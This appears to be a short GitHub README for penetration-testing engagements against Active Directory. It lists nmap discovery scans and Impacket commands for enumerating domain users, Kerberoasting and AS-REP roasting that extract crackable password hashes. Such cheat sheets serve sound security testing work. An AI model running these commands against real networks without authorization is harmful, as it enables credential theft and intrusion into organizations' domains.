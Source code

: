 # Ba51c_Activ3_Direct0ry_3numeration
In most engagements regarding Active Directory, credentials are king. This repo contains basic enumeration commands that will help gain more insight into the target network and its identities. 


# IP Discovery Commands
Once connected to the private/internal range of the target, these commands will assist in IP discovery as well as Services that run on the IP. 
- nmap -sn <IP/24>
- nmap -Pn <IP/24>


# Impacket to Rule them All
"What is Impacket used for?
Impacket is an open-source collection of modules written in Python for programmatically constructing and manipulating network protocols."
If credentials have been gained, they will assist with the following commands that can be run in the domain

*Enter details between the placeholders --> ()

## Getting AD Users
python3 GetADUsers.py -all '(domain)/(user):(password)' -dc-ip (IP)

## Kerberoasting 
python3 GetUserSPNs.py test.local/john:password123 -dc-ip 10.10.10.1 -request

## ASREP Roasting
python3 GetNPUsers.py test.local/ -dc-ip 10.10.10.1 -usersfile usernames.txt -format hashcat -outputfile hashes.txt



